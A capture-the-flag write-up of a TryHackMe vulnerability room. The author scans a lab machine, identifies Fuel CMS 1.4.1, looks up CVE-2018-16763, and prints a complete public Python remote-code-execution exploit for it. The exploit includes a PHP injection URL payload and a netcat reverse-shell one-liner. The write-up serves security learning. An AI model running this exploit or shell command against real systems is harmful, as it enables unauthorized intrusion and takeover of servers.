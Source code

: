 # Vulnerability Capstone

![](https://i.imgur.com/EBn7Nuf.png)

### Question 1
- What is the name of the application running on the vulnerable machine?
after running a scan on the IP Address i found open ports

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.42.79 -T4     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:16 EST
Nmap scan report for 10.10.42.79
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.17 seconds
```
there is a web-server running on port `80` so i navigate to the site and found:
![](https://i.imgur.com/64K0T63.png)

### Question 2
- What is the version number of this application?
from the last screenshot we will find the answer

### Question 3
- What is the number of the CVE that allows an attacker to remotely execute code on this application?
 **Format:** CVE-XXXX-XXXXX
  
 ![](https://i.imgur.com/dPlwVqK.png)
searching for exploit for the service and version running i got the above result and also know that i can get RCE from the server.

if we click on the first search result we will find the CVE number
![](https://i.imgur.com/TTZiPfI.png)

i downloaded the exploit but it didn't work so i decide to use the exploit from `tryhackme` attackbox
![](https://i.imgur.com/4SRug1n.png)

###  Attackbox exploit

```python
#!/usr/bin/python3

# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763
# 
# Poc Created by Ac1d (assassin) 



import requests
import sys
import urllib

from requests.sessions import extract_cookies_to_jar

class col:
    HEADER = '\033[95m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    GREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    RESET = '\033[0m'
    BLACK = "\033[0;30m"
    RED = "\033[0;31m"
    GREEN = "\033[0;32m"
    BROWN = "\033[0;33m"
    BLUE = "\033[0;34m"
    PURPLE = "\033[0;35m"
    LIGHT_GRAY = "\033[0;37m"
    DARK_GRAY = "\033[1;30m"
    LIGHT_RED = "\033[1;31m"
    LIGHT_GREEN = "\033[1;32m"
    YELLOW = "\033[1;33m"
    LIGHT_BLUE = "\033[1;34m"
    LIGHT_PURPLE = "\033[1;35m"
    LIGHT_CYAN = "\033[1;36m"
    LIGHT_WHITE = "\033[1;37m"
    BOLD = "\033[1m"
    FAINT = "\033[2m"
    ITALIC = "\033[3m"
    UNDERLINE = "\033[4m"
    BLINK = "\033[5m"
    NEGATIVE = "\033[7m"
    CROSSED = "\033[9m"


def banner():
    banner = r"""
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--. 
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/ 
Tested on 1.4                                       
"""
    banner += "Created by Ac1d"
    return col.LIGHT_BLUE + banner + col.RESET


def help():
    banner = col.LIGHT_WHITE + "\n\tMenu\n"
    banner += col.LIGHT_GREEN
    banner += "\nexit     -\tExit app"
    banner += "\nshell_me -\tGet a reverse shell (netcat) "
    banner += "\nhelp     -\tShow this help\n"+ col.RESET
    return banner
    


print(banner())
print(help())

#http://10.10.12.27/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27

if len(sys.argv) != 2:
    print("\nUsage: python3 exploit.py Vulnerable IPADDRESS")
    sys.exit(0)

IP=sys.argv[1]

def parsePage(page):
    try:            
        page = page.split("<h4>A PHP Error was encountered</h4>")[0]
        page = page.split("<div")[0]
        page = page[6:]
        return page
    except:
        return False

try:
        
    while True:
        cmd = input(col.LIGHT_WHITE +"fuelCMS$ " + col.RESET)

        if cmd[0:4].lower() == "exit":
            print(col.RED + "Exiting..." + col.RESET)
            sys.exit(0)

        if cmd[0:8] == "shell_me":
            IP2, PORT = input(col.LIGHT_BLUE + "Enter your attacking machine IP:PORT $ " + col.RESET).split(":")
            nc = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP2} {PORT} >/tmp/f"
            cmd = nc
            print(col.LIGHT_GREEN + "\nHope you had your listener ready!!" + col.RESET)
            
        if cmd[0:4] == "help":
            print(help())
            continue
        
        if not "/tmp/f;mkfifo" in cmd:
            print(col.LIGHT_GRAY + "Sending request." + col.RESET)
        cmd = urllib.parse.quote(cmd)
        r = requests.get(f"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ cmd +"%27)%2B%27")
        if r.status_code == 200:
            page = parsePage(r.text)
            if page == "\n":
                print(col.RED + "No result" + col.RESET)
                continue
            print(col.LIGHT_GREEN+ f"\n{page.strip()}" + col.RESET)

except Exception as e:
    print(col.RED + f"An error occured, please try again...\n\n{e}" + col.RESET)
```

running this exploit and selecting the `shell_me` option then i specify my listening `IP:PORT` and i got a reverse shell
![](https://i.imgur.com/en6196R.png)
navigating to `/home/ubuntu` i found the flag 
![](https://i.imgur.com/TgTBD15.png)
